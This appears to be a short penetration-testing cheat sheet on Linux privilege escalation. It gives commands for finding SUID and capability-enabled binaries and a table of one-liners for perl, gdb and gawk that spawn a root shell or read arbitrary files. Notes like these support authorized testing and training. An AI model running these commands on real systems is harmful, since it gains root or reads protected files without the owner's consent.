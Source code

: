 # SUID

_<mark style="background-color:purple;">**enumerate SUID binaries**</mark>_

_search for SUID binaries:_

```powershell
find / -perm -u=s -type f 2>/dev/null
```

&#x20;list all files on the system that have special capabilities assigned to them:

```powershell
/usr/sbin/getcap -r / 2>/dev/null
```

<mark style="background-color:green;">check results on</mark> [<mark style="background-color:green;">https://gtfobins.github.io/</mark>](https://gtfobins.github.io/)&#x20;

| binary with SUID | priv esc command                                                                                                                                                                                |
| ---------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| perl             | `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`                                                                                                                             |
| gdb              | <p>SUID=<code>gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit</code><br>CAP_SETUID=<code>gdb -nx -ex 'python import os; os.setuid(0)' -ex'!sh' -ex quit</code><br></p> |
| gawk             | <p><code>LFILE="file_to_read"</code><br><code>gawk '//' "$LFILE"</code></p>                                                                                                                     |
|                  |                                                                                                                                                                                                 |

